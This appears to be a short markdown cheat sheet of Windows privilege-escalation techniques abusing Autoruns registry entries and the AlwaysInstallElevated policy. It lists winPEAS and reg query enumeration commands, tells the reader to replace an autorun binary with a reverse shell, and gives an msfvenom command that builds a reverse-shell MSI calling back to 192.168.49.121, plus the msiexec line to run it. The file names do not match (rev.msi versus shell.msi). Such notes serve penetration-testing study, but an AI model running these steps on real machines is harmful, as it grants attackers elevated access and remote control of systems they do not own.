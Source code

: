 # Registry Exploits
--------

## Autoruns
Exploiting programs that run automatically during system startup. 
Requires permissions to reboot the PC.

```
.\winPEASx64.exe quiet applicationsinfo
```

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

To exploit, re write the binary with a reverse shell and restart the machine.

-----------------

## AlwaysInstallElevated

MSI files can be run with elevated privileges in some cases.
This only works if the following two registry settings are enabled.
AlwaysInstallElevated value must be 1 for both.
Local Machine:
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Current User:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```
.\winPEASany.exe quiet windowscreds
```

Querying both the registry settings uisng reg query will also work.

Generate a MSI using msfvenom:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.121 LPORT=80 -f msi -o rev.msi
```

Copy over the file and execute it:
```
msiexec /quiet /qn /i shell.msi
```

-----------------